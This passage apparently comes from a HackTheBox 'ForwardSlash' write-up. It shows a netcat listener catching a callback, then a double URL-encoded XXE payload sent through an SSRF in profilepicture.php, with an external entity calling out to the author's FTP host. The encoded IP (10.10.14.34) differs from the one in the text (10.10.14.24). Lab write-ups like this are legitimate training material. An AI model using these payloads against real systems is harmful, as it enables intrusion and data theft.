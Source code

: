 I got a connection at `nc`:

```

root@kali# nc -lnvp 80
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.10.183.
Ncat: Connection from 10.10.10.183:47328.
GET /x HTTP/1.0
Host: 10.10.14.24
Connection: close

```

To make that payload work, I double url-encoded it. When it reached `profilepicture.php`, it will decode the payload. If I only encoded once, the resulting payload wouldn’t be a valid url, with spaces and `?` character. But in double encoded, that resulting payload is still encoded.

I updated the payload to try FTP:

```

<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "ftp://10.10.14.24/"> %ext;
]>
<r></r>

```

I send it:

```

POST /profilepicture.php HTTP/1.1
Host: backup.forwardslash.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://backup.forwardslash.htb/profilepicture.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 573
Connection: close
Cookie: PHPSESSID=q0gqh5u3ak0hltppu9jq91iu0a
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

url=http://backup.forwardslash.htb/dev/index.php?xml=%253c%253f%2578%256d%256c%2520%2576%2565%2572%2573%2569%256f%256e%253d%2522%2531%252e%2530%2522%2520%253f%253e%250d%250a%253c%2521%2544%254f%2543%2554%2559%2550%2545%2520%2572%256f%256f%2574%2520%255b%250d%250a%253c%2521%2545%254e%2554%2549%2554%2559%2520%2525%2520%2565%2578%2574%2520%2553%2559%2553%2554%2545%254d%2520%2522%2566%2574%2570%253a%252f%252f%2531%2530%252e%2531%2530%252e%2531%2534%252e%2533%2534%252f%2522%253e%2520%2525%2565%2578%2574%253b%250d%250a%255d%253e%250d%250a%253c%2572%253e%253c%252f%2572%253e

```
